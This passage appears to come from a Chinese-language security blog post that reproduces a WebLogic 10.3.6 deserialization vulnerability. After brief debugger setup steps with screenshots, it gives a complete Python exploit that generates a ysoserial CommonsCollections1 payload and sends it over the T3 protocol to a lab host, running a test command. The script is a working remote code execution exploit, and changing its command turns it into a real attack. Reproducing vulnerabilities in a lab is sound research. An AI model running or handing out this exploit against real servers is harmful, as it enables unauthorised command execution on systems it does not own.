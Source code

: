 把 server/lib 也作为依赖进行导入

![image-20250424172744777](https://bu.dusays.com/2025/05/11/6820417457244.png)

然后添加远程 JVM 调试

![image-20250424173653693](https://bu.dusays.com/2025/05/11/68204172a6fe9.png)

### 漏洞复现

10.3.6 版本的 exp

```python
from os import popen
import struct # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii

def generatePayload(gadget,cmd):
    YSO_PATH = r&#34;D:\14.Java\tools\windows_tools\windows_tools\ysoserial-all.jar&#34;
    popen = subprocess.Popen([&#39;java&#39;,&#39;-jar&#39;,YSO_PATH,gadget,cmd],stdout=subprocess.PIPE)
    return popen.stdout.read()

def T3Exploit(ip,port,payload):
    sock =socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    sock.connect((ip,port))
    handshake = &#34;t3 10.3.6\nAS:255\nHL:19\nMS:10000000\n\n&#34;
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    compile = re.compile(&#34;HELO:(.*).0.false&#34;)
    match = compile.findall(data.decode())
    if match:
        print(&#34;Weblogic: &#34;&#43;&#34;&#34;.join(match))
    else:
        print(&#34;Not Weblogic&#34;)
        #return
    header = binascii.a2b_hex(b&#34;00000000&#34;)
    t3header = binascii.a2b_hex(b&#34;016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006&#34;)
    desflag = binascii.a2b_hex(b&#34;fe010000&#34;)
    payload = header &#43; t3header  &#43;desflag&#43;  payload
    payload = struct.pack(&#34;&gt;I&#34;,len(payload)) &#43; payload[4:]
    sock.send(payload)

if __name__ == &#34;__main__&#34;:
    ip = &#34;192.168.2.128&#34;
    port = 7001
    gadget = &#34;CommonsCollections1&#34;
    cmd = &#34;touch /tmp/success_test&#34;
    payload = generatePayload(gadget,cmd)
    T3Exploit(ip,port,payload)
```
